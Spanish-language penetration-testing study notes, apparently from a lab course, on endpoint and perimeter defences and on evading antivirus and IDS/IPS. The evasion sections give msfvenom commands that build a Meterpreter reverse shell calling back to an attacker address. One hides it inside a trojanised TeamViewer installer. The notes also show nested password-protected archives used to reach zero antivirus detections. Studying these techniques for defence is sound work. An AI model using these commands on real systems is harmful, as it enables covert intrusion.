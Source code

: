 # Firewall and IDS/IPS Evasion

## Protección de Endpoint

La **protección de endpoints** se refiere a cualquier dispositivo o servicio localizado cuyo propósito es proteger un solo host en la red. Este host puede ser una computadora personal, una estación de trabajo corporativa o un servidor en la zona desmilitarizada (DMZ) de la red.

La protección de endpoints generalmente incluye software que proporciona protección antivirus, antimalware (incluye bloatware, spyware, adware, scareware, ransomware), firewall y protección contra ataques DDoS, todo en un solo paquete. Ejemplos de software de protección de endpoints incluyen **Avast, Nod32, Malwarebytes y BitDefender**.

### **Protección de Perímetro**

La **protección de perímetro** se refiere a dispositivos físicos o virtualizados que se encuentran en el borde de la red y que proporcionan acceso a la red interna desde el exterior (de público a privado).

Entre las zonas pública y privada a menudo se encuentra una tercera zona conocida como **DMZ (Zona Desmilitarizada)**. En esta área se alojan servidores públicos que interactúan con clientes de Internet y con la red interna para ser administrados y actualizados.

## Políticas de Seguridad

Las políticas de seguridad son fundamentales para mantener una postura de seguridad en cualquier red. Funcionan como listas de control de acceso (ACL), dictando qué tráfico o archivos pueden existir dentro de los límites de la red. Estas políticas pueden abarcar diversas áreas como:

* **Políticas de tráfico de red**
* **Políticas de aplicaciones**
* **Políticas de control de acceso de usuarios**
* **Políticas de gestión de archivos**
* **Políticas de protección contra DDoS**

| **Tipo de Detección**                           | **Descripción**                                                                                                                                                                |
| ----------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Detección basada en firmas**                  | Comparación de paquetes de la red con patrones de ataques conocidos (firmas). Una coincidencia exacta genera alarmas.                                                          |
| **Detección heurística / anomalía estadística** | Comparación del comportamiento con una línea base establecida para identificar amenazas persistentes avanzadas (APT). Cualquier desviación genera alarmas.                     |
| **Análisis de protocolo con estado**            | Reconoce divergencias en los protocolos mediante perfiles preconstruidos de actividad no maliciosa.                                                                            |
| **Monitoreo en vivo y alertas (basado en SOC)** | Un equipo de analistas monitorea la actividad de la red en tiempo real, decidiendo si tomar acciones ante posibles amenazas o dejar que los mecanismos automatizados lo hagan. |

## **Evasión de Antivirus**

Los antivirus suelen depender de la **detección basada en firmas** para identificar código malicioso. Una vez detectado, el programa se cuarentena y se termina su ejecución. Para evitar esto, es posible utilizar técnicas de evasión:

* **Túneles AES en msfconsole**: MSF6 puede tunelar comunicación encriptada mediante AES entre el shell de Meterpreter y el atacante, lo que elude sistemas de detección y prevención de intrusiones (IDS/IPS) basados en red.
* **Ejecutables backdoor con msfvenom**: Podemos inyectar código malicioso en ejecutables legítimos para disfrazar la actividad maliciosa. Esto se logra con la herramienta **msfvenom**.

#### Creación de Ejecutables Backdoor

Podemos usar **msfvenom** para generar ejecutables con shellcode malicioso incrustado. Ejemplo:

```bash
sherlock28@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

Esto genera un archivo ejecutable `TeamViewer_Setup.exe` con un payload incrustado que evade detecciones utilizando múltiples iteraciones del encoder `shikata_ga_nai`.

#### Evasión de Firewall e IDS/IPS

Una vez generado el ejecutable, si la víctima lo ejecuta, la aplicación maliciosa puede funcionar sin levantar sospechas, especialmente si usamos el flag `-k` para continuar la ejecución normal del programa legítimo mientras nuestro payload se ejecuta en un hilo separado.

## Archivos

Archivar un archivo, carpeta, script, ejecutable, imagen o documento y ponerle una contraseña permite eludir muchas firmas comunes de antivirus actuales. Sin embargo, la desventaja de este proceso es que generará notificaciones en el tablero de alarmas del antivirus, ya que no se podrán escanear debido a que están bloqueados con una contraseña. Un administrador puede optar por inspeccionar manualmente estos archivos comprimidos para determinar si son maliciosos o no.

### Generación de Payload

```bash
sherlock28@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
```

* **Descripción del proceso**:
  * Se selecciona el payload `windows/x86/meterpreter_reverse_tcp`.
  * Se usa el encoder `x86/shikata_ga_nai` con 5 iteraciones.
  * El payload es guardado en el archivo `test.js`.

```bash
sherlock28@htb[/htb]$ cat test.js
```

El contenido del archivo `test.js` está codificado en varias iteraciones y es difícilmente legible sin el proceso de decodificación adecuado.

### VirusTotal

```bash
sherlock28@htb[/htb]$ msf-virustotal -k <API key> -f test.js 
```

* Se sube el archivo `test.js` a VirusTotal para obtener un informe de detección.
* Algunas detecciones de antivirus incluyen:
  * **AVG**: Win32\[Trj].
  * **BitDefender**: Exploit.Metacoder.Shikata.Gen.
  * **ClamAV**: Win.Trojan.MSShellcode-6360729-0.

### Archivado del Payload

**Evasión de Firewall e IDS/IPS**

1.  **Crear archivo comprimido y proteger con contraseña**:

    ```bash
    sherlock28@htb[/htb]$ rar a ~/test.rar -p ~/test.js
    ```
2.  **Eliminar la extensión `.rar`**:

    ```bash
    sherlock28@htb[/htb]$ mv test.rar test
    ```
3.  **Comprimir nuevamente y proteger con otra contraseña**:

    ```bash
    sherlock28@htb[/htb]$ rar a test2.rar -p test
    ```
4.  **Eliminar extensión del segundo archivo comprimido**:

    ```bash
    bashCopiar códigosherlock28@htb[/htb]$ mv test2.rar test2
    ```

#### VirusTotal (Segunda vez)

**Evasión de Firewall e IDS/IPS**

Después de cargar el archivo comprimido nuevamente (`test2`), los resultados de detección muestran 0/49 detecciones por parte de los motores antivirus, lo que significa que el archivo ahora es indetectable.

## Packers

Un **packer** es un software que comprime y empaqueta un ejecutable junto con código de descompresión en un solo archivo. Cuando se ejecuta, el código de descompresión restaura el ejecutable original. Esto agrega una capa adicional de protección contra los mecanismos de escaneo de archivos en los hosts objetivo.

Lista de software de packers populares:

* UPX packer
* The Enigma Protector
* MPRESS
* Alternate EXE Packer
* ExeStealth
* Morphine
* MEW
* Themida

## Codificación de Exploits

Cuando se codifica un exploit o se porta uno existente al marco de trabajo, es recomendable asegurarse de que el código no sea fácilmente identificable por las medidas de seguridad del sistema objetivo. Un ejemplo clásico es un **desbordamiento de búfer** (Buffer Overflow), que puede ser detectado debido a los patrones hexadecimales en el tráfico de red.

## **Evasión de IDS/IPS en exploits**

Agregar randomización en los patrones puede romper las firmas de IDS/IPS que detectan estos patrones comunes. Además, se recomienda evitar el uso de NOP sleds evidentes para colocar el shellcode tras el desbordamiento.

## Recompilación de Meterpreter desde el Código Fuente

Los sistemas de prevención de intrusiones (IPS) y los motores antivirus son las herramientas más comunes que pueden interrumpir el establecimiento de una conexión en el objetivo. Estos funcionan principalmente con firmas del archivo malicioso completo o de la etapa inicial del payload.

